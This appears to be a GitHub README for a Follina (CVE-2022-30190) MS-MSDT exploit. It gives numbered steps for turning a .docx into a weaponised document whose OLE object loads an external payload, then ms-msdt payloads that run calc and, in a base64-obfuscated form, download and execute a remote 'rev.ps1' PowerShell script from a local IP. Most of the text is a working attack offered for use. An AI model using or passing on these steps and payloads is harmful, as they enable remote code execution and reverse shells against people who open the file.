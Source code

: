 # MS-MSDT-Office-RCE-Follina
CVE-2022-30190 | MS-MSDT Follina One Click

1. Create a Docx file.
2. In the Docx file, Insert > Object > Bitmap Image > Ok
3. In the Paint application that launched, save the Paint file.
4. Save your Docx file.
5. Open your file as an archive (With 7Zip; Right Click > 7Zip > Open Archive.)
6. Copy out the Document.xml from \Word\ and document.xml.rels file from \word_rels\
7. Open/Edit the \word\_rels\Document.xml.rels and locate the relationship XML Tag with "/relationships/oleObject". After this replace the destination in "Target=" to your remote destination where it will grab the payload from. Also add "TargetMode="External"" to the XML Tag.
8. Compress back to Docx file (Send to > Compressed (zipped) folder  |  Rename file type from zip > docx/doc )

--------------------------------------------------------------------------------------------------------
The act of recompressing can be observed from JohnHammond's Python Script as well:
    ~ Rebuild the original office file ~
    shutil.make_archive(args.output, "zip", doc_path)
    os.rename(args.output + ".zip", args.output)
    
Reference: https://github.com/JohnHammond/msdt-follina/blob/main/follina.py



--------------------------------------------------------------------------------------------------------





## Payloads (Basic Calc Execute):

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Start-Process('calc'))i/../../../../../../../../../../../../../../Windows/system32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>


Can Replace the Start-Process('calc') with:
> IEX('calc.exe')
--------------------------------------------------------------------------------------------------------
## PS1 File Load:

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'cG93ZXJzaGVsbC5leGUgLWMgImlleCAoaXdyIGh0dHA6Ly8xOTIuMTY4LjE5OC4xMjgvcmV2LnBzMSAtVXNlQmFzaWNQYXJzaW5nKSIK'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>  


Decoded:
Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("powershell.exe -c "iex (iwr http://192.168.198.128/rev.ps1 -UseBasicParsing)""))

--------------------------------------------------------------------------------------------------------
## Apache2 access.log should show connection upon opening file
![Log Example](/log.png?raw=true "Example")

